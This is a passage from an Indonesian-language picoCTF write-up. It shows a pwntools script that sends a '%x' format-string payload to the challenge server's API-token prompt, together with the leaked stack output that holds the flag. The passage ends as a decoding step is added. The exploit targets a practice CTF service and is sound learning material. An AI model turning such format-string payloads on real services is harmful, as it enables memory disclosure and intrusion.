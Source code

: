 ```
r.recvline()

#print hasil exploit
print(r.recvline())
```
Mari kita run:
```
[x] Opening connection to mercury.picoctf.net on port 59616
[x] Opening connection to mercury.picoctf.net on port 59616: Trying 18.189.209.142
[+] Opening connection to mercury.picoctf.net on port 59616: Done
XXX\pwn_test.py:46: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('2) View my portfolio\n')
XXX\pwn_test.py:49: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("1\n")
XXX\pwn_test.py:52: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('What is your API token?\n')
XXX\pwn_test.py:55: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("%x" + "_%x"*100 + "\n")
b'9bc0410_804b000_80489c3_f7f9dd80_ffffffff_1_9bbe160_f7fab110_f7f9ddc7_0_9bbf180_2_9bc03f0_9bc0410_6f636970_7b465443_306c5f49_345f7435_6d5f6c6c_306d5f79_5f79336e_38343136_34356562_ffb6007d_f7fd8af8_f7fab440_fbd6db00_1_0_f7e3ace9_f7fac0c0_f7f9d5c0_f7f9d000_ffb632d8_f7e2b68d_f7f9d5c0_8048eca_ffb632e4_0_f7fbff09_804b000_f7f9d000_f7f9de20_ffb63318_f7fc5d50_f7f9e890_fbd6db00_f7f9d000_804b000_ffb63318_8048c86_9bbe160_ffb63304_ffb63318_8048be9_f7f9d3fc_0_ffb633cc_ffb633c4_1_1_9bbe160_fbd6db00_ffb63330_0_0_f7de0fa1_f7f9d000_f7f9d000_0_f7de0fa1_1_ffb633c4_ffb633cc_ffb63354_1_0_f7f9d000_f7fc070a_f7fd8000_0_f7f9d000_0_0_d374c314_30c6504_0_0_0_1_8048630_0_f7fc5d50_f7fc0960_804b000_1_8048630_0_8048662_8048b85_\n'
[*] Closed connection to mercury.picoctf.net port 59616
```
Woah..sampe buffernya keputus duluan sebelum sampe 100 sepertinya wkwkw.. Tapi harusnya address flagnya ada di sini sih. Sekarang pertanyaannya gimana cara convert ini address biar berguna?

Hmm jadi inget yang challenge [transformation](../Reverse%20Engineering/Transformation.md), apa kita coba pake ```decode()``` ya?
```
import pwn

#connect ke server
r = pwn.connect('mercury.picoctf.net',59616)

#tunggu sampai prompt aksi kelar
r.recvuntil('2) View my portfolio\n')

#kirim input
r.send("1\n")

#tunggu sampai prompt API key muncul
r.recvuntil('What is your API token?\n')

#kirim payload
r.send("%x" + "_%x"*100 + "\n")

#skip line "Buying stonks with token:\n"
r.recvline()

#dapetin hasil exploit
response = r.recvline()
#decode it
print(response.decode())
```
Coba kita run:
